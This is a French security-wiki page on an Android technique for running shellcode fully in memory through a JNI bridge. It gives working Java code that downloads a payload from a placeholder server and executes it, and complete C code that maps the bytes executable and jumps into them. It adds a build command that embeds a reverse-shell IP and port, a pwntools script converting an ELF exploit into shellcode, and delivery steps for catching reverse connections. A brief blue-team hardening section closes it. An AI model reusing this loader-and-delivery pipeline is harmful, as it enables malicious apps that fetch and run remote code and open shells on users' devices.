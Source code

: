 # Android Exécution de code natif en mémoire via JNI (shellcode)

{{#include ../../banners/hacktricks-training.md}}

Cette page documente un pattern pratique pour exécuter des payloads natifs entièrement en mémoire depuis un processus d'app Android non fiable en utilisant JNI. Le flux évite de créer un binaire natif sur disque : télécharger des octets raw de shellcode via HTTP(S), les passer à un bridge JNI, allouer de la mémoire RX, et sauter dedans.

Pourquoi c'est important
- Réduit les artefacts forensiques (pas d'ELF sur disque)
- Compatible avec “stage-2” native payloads générés à partir d'un binaire exploit ELF
- S'aligne sur le tradecraft utilisé par les malwares modernes et les red teams

Schéma général
1) Récupérer les octets de shellcode en Java/Kotlin
2) Appeler une méthode native (JNI) avec le tableau d'octets
3) Dans JNI : allouer de la mémoire RW → copier les octets → mprotect vers RX → appeler l'entrypoint

Exemple minimal

Java/Kotlin side
```java
public final class NativeExec {
static { System.loadLibrary("nativeexec"); }
public static native int run(byte[] sc);
}

// Download and execute (simplified)
byte[] sc = new java.net.URL("https://your-server/sc").openStream().readAllBytes();
int rc = NativeExec.run(sc);
```
C côté JNI (arm64/amd64)
```c
#include <jni.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

static inline void flush_icache(void *p, size_t len) {
__builtin___clear_cache((char*)p, (char*)p + len);
}

JNIEXPORT jint JNICALL
Java_com_example_NativeExec_run(JNIEnv *env, jclass cls, jbyteArray sc) {
jsize len = (*env)->GetArrayLength(env, sc);
if (len <= 0) return -1;

// RW anonymous buffer
void *buf = mmap(NULL, len, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
if (buf == MAP_FAILED) return -2;

jboolean isCopy = 0;
jbyte *bytes = (*env)->GetByteArrayElements(env, sc, &isCopy);
if (!bytes) { munmap(buf, len); return -3; }

memcpy(buf, bytes, len);
(*env)->ReleaseByteArrayElements(env, sc, bytes, JNI_ABORT);

// Make RX and execute
if (mprotect(buf, len, PROT_READ | PROT_EXEC) != 0) { munmap(buf, len); return -4; }
flush_icache(buf, len);

int (*entry)(void) = (int (*)(void))buf;
int ret = entry();

// Optional: restore RW and wipe
mprotect(buf, len, PROT_READ | PROT_WRITE);
memset(buf, 0, len);
munmap(buf, len);
return ret;
}
```
Remarques et mises en garde
- W^X/execmem: Android moderne applique W^X ; les mappings anonymes PROT_EXEC sont généralement encore autorisés pour les processus d'application avec JIT (sous réserve de la politique SELinux). Certains appareils/ROM restreignent cela ; basculez vers des pools exec alloués par le JIT ou des native bridges si nécessaire.
- Architectures: Assurez-vous que l'architecture du shellcode correspond à celle de l'appareil (arm64-v8a couramment ; x86 seulement sur les émulateurs).
- Contrat de point d'entrée: Décidez d'une convention pour l'entrée de votre shellcode (sans arguments vs pointeur vers structure). Gardez-le position-independent (PIC).
- Stabilité: invalidez le cache d'instructions avant de sauter ; un cache désynchronisé peut provoquer un plantage sur ARM.

Packaging ELF → position‑independent shellcode
Une pipeline robuste pour l'opérateur consiste à :
- Construisez votre exploit en tant qu'ELF statique avec musl-gcc
- Convertissez l'ELF en un blob de shellcode auto‑chargé en utilisant pwntools’ shellcraft.loader_append

Compilation
```bash
musl-gcc -O3 -s -static -fno-pic -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
Transformer un ELF en raw shellcode (exemple amd64)
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
loader = shellcraft.loader_append(elf.data, arch='amd64')
sc = asm(loader)
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)}, shellcode size={len(sc)}")
```
Pourquoi loader_append fonctionne : il émet un tiny loader qui mappe les segments du programme ELF embarqué en mémoire et transfère le contrôle à son entrypoint, vous fournissant un unique raw blob qui peut être memcpy’ed et exécuté par l'app.

Delivery
- Hébergez sc sur un serveur HTTP(S) que vous contrôlez
- The backdoored/test app télécharge sc et invoque le JNI bridge montré ci‑dessus
- Écoutez sur votre operator box toute reverse connection que le kernel/user-mode payload établit

Validation workflow for kernel payloads
- Utilisez un vmlinux symbolisé pour un reversing rapide / récupération d'offsets
- Prototypez les primitives sur une debug image pratique si disponible, mais révalidez toujours sur la cible Android réelle (kallsyms, KASLR slide, page-table layout, et mitigations diffèrent)

Hardening/Detection (blue team)
- Interdire PROT_EXEC anonyme dans les domaines d'application lorsque possible (SELinux policy)
- Appliquez une intégrité stricte du code (pas de chargement natif dynamique depuis le réseau) et validez les canaux de mise à jour
- Surveillez les transitions mmap/mprotect suspectes vers RX et les copies volumineuses de byte-array précédant des jumps

References
- [CoRPhone challenge repo (Android kernel pwn; JNI memory-only loader pattern)](https://github.com/0xdevil/corphone)
- [build.sh (musl-gcc + pwntools pipeline)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/build.sh)
- [exp2sc.py (pwntools shellcraft.loader_append)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exp2sc.py)
- [exploit.c TL;DR (operator/kernel flow, offsets, reverse shell)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exploit.c)
- [INSTRUCTIONS.md (notes d'installation)](https://github.com/0xdevil/corphone/blob/main/INSTRUCTIONS.md)

{{#include ../../banners/hacktricks-training.md}}
